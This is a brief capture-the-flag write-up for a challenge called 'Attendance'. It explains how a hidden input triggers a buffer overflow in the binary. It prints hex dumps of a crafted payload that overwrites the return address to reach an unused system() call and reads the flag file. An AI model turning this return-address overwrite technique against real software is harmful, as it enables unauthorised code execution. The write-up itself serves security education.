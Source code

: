 Attendance
=====
* Tools used: IDA Free, GDB, Python, Netcat
* We found in the ASM code of the executable that the input `31337` allows us to leave a message for the principal. Besides the risk of getting a lot of swear words, the principal seems that doesn't observed the buffer overflow he exposed :D Using a special crafted input we could overwrite the return address of the current function and jump to some strange function we found, function never called in the program but it contains a call to system(). Input file hex dump:
```
00000000  33 31 33 33 37 0a 61 61  61 61 61 61 61 61 61 61  |31337.aaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000030  61 61 61 61 61 61 60 86  04 08 01 d6 ff ff        |aaaaaa`.......|
0000003e
```
We observe that using just this won't open a shell, so we need to add the command we want to execute. (system function will take it from stack as its first and only argument):
```
00000000  33 31 33 33 37 0a 61 61  61 61 61 61 61 61 61 61  |31337.aaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000030  61 61 61 61 61 61 60 86  04 08 01 d6 ff ff 0a 63  |aaaaaa`........c|
00000040  61 74 20 2f 68 6f 6d 65  2f 61 74 74 65 6e 64 61  |at /home/attenda|
00000050  6e 63 65 2f 66 6c 61 67  3b 0a                    |nce/flag;.|
0000005a
```
And we just got the flag.
